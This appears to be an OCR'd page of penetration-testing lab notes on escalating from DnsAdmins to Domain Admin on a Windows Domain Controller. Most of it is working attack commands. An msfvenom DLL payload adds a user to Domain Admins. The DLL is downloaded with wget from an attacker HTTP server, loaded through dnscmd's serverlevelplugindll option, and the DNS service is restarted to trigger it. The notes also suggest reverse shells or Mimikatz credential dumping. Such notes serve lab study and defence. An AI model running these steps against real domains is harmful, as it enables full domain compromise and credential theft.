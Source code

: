 ```
    
-    When the DNS service is restarted, the DLL in this path will be loaded (i.e., a network share that the Domain Controller's machine account can access)
    
-    An attacker can load a custom DLL to obtain a reverse shell or even load a tool such as Mimikatz as a DLL to dump credentials.


#### Generating Malicious DLL

`$ msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll`


`$ python3 -m http.server 7777`

`PS C:\>  wget "http://10.10.14.3:7777/adduser.dll" -outfile "adduser.dll"`




#### Loading DLL

     Only members of the DnsAdmins group are permitted to do this.

`C:\> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll`




    !!Note: We must specify the full path to our custom DLL or the attack will not work properly.



#### Try to restart the service

`C:\> wmic useraccount where name="netadm" get sid`

     -Checking Permissions on DNS Service

     Once we have the user's SID, we can use the sc command to check permissions on the service. 
```
     C:\> sc.exe sdshow DNS

     D:(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)(A;;RPWP;;;S-1-5-21-669053619-2741956077-1013132368-1109)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)
```
    (  SDDL syntax in Windows)

#### Stopping the DNS Service

`C:\> sc stop dns`

#### Starting the DNS Service

`C:\> sc start dns`

#### Confirming exploitation

`C:\> net group "Domain Admins" /dom`

    

```